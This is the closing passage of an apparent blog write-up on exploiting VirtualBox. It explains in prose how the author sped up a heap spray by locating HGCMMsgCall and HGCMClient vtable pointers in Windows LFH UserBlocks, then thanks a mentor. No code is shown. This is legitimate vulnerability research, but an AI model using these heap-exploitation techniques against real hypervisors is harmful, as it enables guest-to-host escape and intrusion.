Knowing that all the `HGCMMsgCall` sprayed by us will be served by LFH, I will only find them in a `UserBlocks`. This makes the exploit run a lot of faster than the first exploit I made.

#### More success rate, more speed

I also noted that each time I want to send a HGCM message, I have to create a `HGCMClient`. Since there are many `HGCMClient`s being allocated when spraying, I also look for their `vtable` pointer.

One more thing is that every chunk address will have to be the multiple of `0x10`, so I only read qwords at these locations to find `vtable`. This will also increase the speed of my exploit.

### Conclusion

I would like to give a special thanks to my mentor [@bienpnn](https://twitter.com/bienpnn), who was actively helping me throughout the project. This is my first time exploiting a real Windows software so it is really fun. After this project, I learned more about Windows heap internal, how a hypervisor works, how to debug Windows kernel and a ton of other knowledge. I hope this post can help you if you are about to target VirtualBox, and see you in another blog post!
